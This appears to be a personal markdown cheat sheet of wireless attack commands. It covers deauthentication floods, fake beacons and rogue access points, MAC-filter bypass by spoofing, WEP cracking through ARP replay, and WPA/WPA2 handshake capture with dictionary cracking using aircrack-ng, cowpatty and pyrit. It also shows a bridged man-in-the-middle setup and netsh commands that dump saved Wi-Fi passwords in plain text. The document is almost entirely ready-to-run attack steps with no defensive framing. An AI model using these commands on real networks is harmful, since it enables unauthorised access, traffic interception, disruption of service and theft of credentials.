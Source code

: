 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> start the wireless card** 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing

**Check active Access points and the stations/clients connecting to it**

4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**
6. 

		a. Passive way - monitor the network for clients to connect
		b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		
		(send the deauthentication notification packet to the clients)
		aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

		--deauth 0 will continously send deauth packets
		-D disable AP detection

7. Bypassing MAC filters

		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> **Trying a fake authentication using the wireless card when MAC filter is off(open network)
	
		b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication
		
8. Cracking Shared/WEP encyption
	
		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
		b. ifconfig at0 up  ---> Power up the soft interface created
		c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

		a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
		b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
		c. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)

		a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
		b. use aircrack/ cowpatty along with the dictionary
		c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

		a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

		Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs.

		b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
		c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	**With Pyrit**

		d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
		e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

		f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
		
			or

		f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

		With Aircrack - analyze the handshake capture file

		g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

		a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
		b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
		c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

		**wpa_supplication.conf** 

		ctrl_interface=/var/run/wpa_supplicant
		ap_scan=1

		network={
		ssid="Pop"
		proto=WPA
		key_mgmt=WPA-PSK
		pairwise=CCMP TKIP
		group=CCMP TKIP WEP104 WEP40
		psk="boloTarara"
		priority=2
		}

	**command**
	
		wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

		a. netsh wlan show interfaces --> view all wifi interfaces

		b. netsh wlan show drivers  --> extract current wifi driver information

		c. netsh wlan show networks --> view available networks


		d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

		e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

		f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

		g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

		h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

		i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    		netsh wlan start hostednetwork






